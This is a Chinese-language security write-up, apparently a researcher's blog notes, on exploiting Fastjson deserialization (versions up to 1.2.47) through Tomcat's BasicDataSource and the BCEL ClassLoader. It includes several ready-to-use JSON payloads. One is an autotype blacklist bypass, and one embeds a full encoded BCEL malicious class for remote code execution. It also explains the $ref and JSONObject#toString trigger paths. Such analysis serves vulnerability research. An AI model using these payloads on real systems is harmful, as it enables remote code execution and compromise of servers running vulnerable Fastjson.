







## 前言

在`Fastjson`中一般有三种方式

1. TemplatesImpl
2. JNID注入
3. 加载BCEL字节码

第一种利用条件比较苛刻,需要解析JSON的时候需要使用Feature。第二种需要连接我们的恶意服务器,如果目标不出网的话也很难利用。第三种的话可以直接通过Classloader加载恶意类,相比之前两种利用条件更小,但是在fastjson在1.2.25中将BasicDataSource加入了黑名单。不过在fastjson版本<=1.2.47可以用缓存机制进行黑名单绕过


关于如何调用的大佬已经总结的比较详细了

https://kingx.me/Exploit-FastJson-Without-Reverse-Connect.html

不过这句话有点没看懂:



该方法还有JDK版本的限制。在JDK版本8u251之后是无法利用的,想了解详情的可以看一下

https://www.leavesongs.com/PENETRATION/where-is-bcel-classloader.html

我这里简单总结一下

注意:

> tomcat7
>
> org.apache.tomcat.dbcp.dbcp.BasicDataSource
>
> tomcat8及其以后
>
> org.apache.tomcat.dbcp.dbcp2.BasicDataSource

## fastjson<=1.2.36

```json
{
    {
        "x":{
                "@type": "org.apache.tomcat.dbcp.dbcp.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$"
        }
    }: "x"
}
```

绕过autotype:

```json
{
    "name2":
    {
        "@type" : "java.lang.Class",
        "val"   : "org.apache.tomcat.dbcp.dbcp.BasicDataSource"
    },
    "x" : {
        "name": {
            "@type" : "java.lang.Class",
            "val"   : "com.sun.org.apache.bcel.internal.util.ClassLoader"
        },
        {
        "y":{
            "@type":"com.alibaba.fastjson.JSONObject",
            "c": {
                "@type":"org.apache.tomcat.dbcp.dbcp.BasicDataSource",
                "driverClassLoader": {
                    "@type" : "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },                  "driverClassName":"$$BCEL$$",
           	 	}
	    }
}:"xxx"   
    }
}

```

来看一下如何调用的toString

在进行反序列化时,如果发现了我们的class为JSONObject.class,则会调用key.togString()来触发get方法(此时我们的key为JSONObject对象,value为"xxx")



当`fastjson>=1.2.37`时,这种payload就用不了了,在差不多的地方找到了这个:



现在还加了一个`key==null`,导致我们无法使用


## 1.2.36<=fastjson<=1.2.47

当`fastjson`版本>=`1.2.36`时，我们可以使用`$ref`的方式来调用任意的`getter`

可以看一下这篇文章:https://paper.seebug.org/1613/#1

```json
{
    "name2":
    {
        "@type" : "java.lang.Class",
        "val"   : "org.apache.tomcat.dbcp.dbcp.BasicDataSource"
    },
    "x" : {
        "name": {
            "@type" : "java.lang.Class",
            "val"   : "com.sun.org.apache.bcel.internal.util.ClassLoader"
        },
        "y":{
            "@type":"com.alibaba.fastjson.JSONObject",
            "c": {
                "@type":"org.apache.tomcat.dbcp.dbcp.BasicDataSource",
                "driverClassLoader": {
                    "@type" : "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },      
 "driverClassName":"$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$adT$5bO$TA$Y$3dS$K$db$ae$5b$b9$94$8bx$bf$a1$a5$uE$c5$xx$r$Q$89$f5$SK4$c6$a7a$Z$cb$60$bb$dbl$a7$a6$Y$ff$8f$af$fa$a2F$T$7f$80$3fJ$3d$b3$5d$wb$lM$d3$d9$f9n$e7$3bs$e6$db$fd$f1$f3$ebw$A$f3$b8$e7$o$8b9$X$Xp1$83K$f69$ef$e0$b2$8b$7e$5cqp$d5$85$839$H$d7$i$5cwpC$60$60Q$H$da$dc$S$e8$xL$3f$TH$_$85$hJ$60$b0$ac$D$f5$a8U_W$d1$9a$5c$af$d13R$O$7dY$7b$s$pm$ed$c4$v$f8$l$xo$c97$b2$a4$c3$d2$ea$e3$e5$b6$af$gF$87$c1$C$91$cc$a6n$Kd$cb$cb$edF$z$d4$86$ae$5c$c5H$ff$f5C$d9$88$cbI$86$bc$98X$97$3a$Q$Y$_$bc$ec$m$d5dP$zUL$a4$83$eaBLIFU$C$e5$7b$84$F$i$d5A$X$Y$ae$w$f3x$7dK$f9f5h$g$Z$f8$e4$b6Q$d8U$d3$J$$$c4$9ev$v$90u$o$94$k$c9$ba$da$e3Z$K$D$a3$daIb$a9et$adt_67$8d$e5$bc0$fd$_$m$a5$L$d7$b7$acB$3dBi$82$92H$beGW$92$b7$c1$r$d3$e6$e1$7bS$Q$d8$a7$827$3a$K$83$ba$KLW$eb$3d$9cl$f9_$97$b3$dd$d8$b9$a0$c9$5e$F$8b$c5$e2$z$W$b9$dd$dbj$3a$a0$9d$ad$e8j$mM$xb$dd$e6$ff$W$$$ee$d9S$bc$cc$a2_KF$d0$ad$84$ad$c8W$x$daR$f7$92$b9$99$b55$k$3c$e4$i$yz$b8$J$s$a6yZ$df$c3m$dc$a1$b4$3d$c6$cf$c3$5d$e4$a8$ef$f2$cep$M$edm$yp$f4$_$ee$cd$86N$o$x$d27a$b4$z0$ba$D$5cQ$d4$b5$a6$dfv$q$cd$ff$81$ea$f6$e3$f4$fd$f1$3em$FF$dbKw9$91$5dc$ac$b0$fb$f4$89$db$O$88j$x_$e0l$a1$c7$f0$efr$3d$89B_5$9b$y$Yl0h$e27i$z$92$be$c2$J$be$d1Y$a4$e0b$l$df$ff4$84$d5$8a$eb$7eZ$ef$e8O$f19$5e$fc$M$f1$F$a9$91$beOH$3f$7f$8fLy$e6$T$G$3e2$x$cd$dc$n$7e$h$fa0$c8$bc$83$Y$e0$3aLo$9e$feqFFi$8d$f17$c1$3dq$88f$a3$c3$Ya$ad$b5$f3$cc$A$e3$60$3c$f5$8b$8bp$e8$e52$91$s$ab$D$98L$98$dcM$98d$bf$c1y$f1$99$E$3e$d2H$c5M$dd80$89$M$db$ef4a$o$adC$7cf$Ip$98M$f8$b5$c1$R$i$rQ$L$f7$8aV$bfE$Q$l$b8v$c8$P$c4$94$8e$c4$Y$f3$9dhB$cf$ee$8e$e1x$iOQ$b0$93q$87$UN$e14k$edn$Kgx$ac$b3$dc$7bI$d6$U$K$f4L$t$92$W1$T$7b$cf$91$cf$f9$ae$bc$92$k$9b$3d$b2$5b$da$H$c5DZ$7b$G$af$x$edx$cc$c8$a3o0$be$a0$i$R$86$c9u$u$e9$99Kd$ed$88$e9$mU$8e5$U$98$8d$h$97$7e$D$e3J$d4$G$e0$F$A$A",
                 "$ref": "$.x.y.c.connection"
            }
        }
    }
}
```

最后漏洞的触发点:



不过自己也发现了和之前一样的通过`JSONObject#toString`进行调用(虽然还不知道有什么用)

```json
{
    "name2":
    {
        "@type" : "java.lang.Class",
        "val"   : "org.apache.tomcat.dbcp.dbcp.BasicDataSource"
    },
    "x" : {
        "name": {
            "@type" : "java.lang.Class",
            "val"   : "com.sun.org.apache.bcel.internal.util.ClassLoader"
        },
        {
        "y":{
            "@type":"com.alibaba.fastjson.JSONObject",
            "c": {
                "@type":"org.apache.tomcat.dbcp.dbcp.BasicDataSource",
                "driverClassLoader": {
                    "@type" : "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },                  "driverClassName":"$$BCEL$$",
                 "$ref": "$."
           	 	}
	    }
}:"xxx"   
    }
}
```

这种的话就还是和之前的一样调用`JSONObject#tostring()`来触发的,所以`payload`中的`$ref`的`value`是随便填的

漏洞触发点:

这里有一个getObject(ref)方法



跟进去

这里会挨着将存入content的path与$ref的path相比较,如果相同则会进入if语句。



当i=7时,将会获得我们构造的`JSONObject`,然后调用toString方法,触发get方法



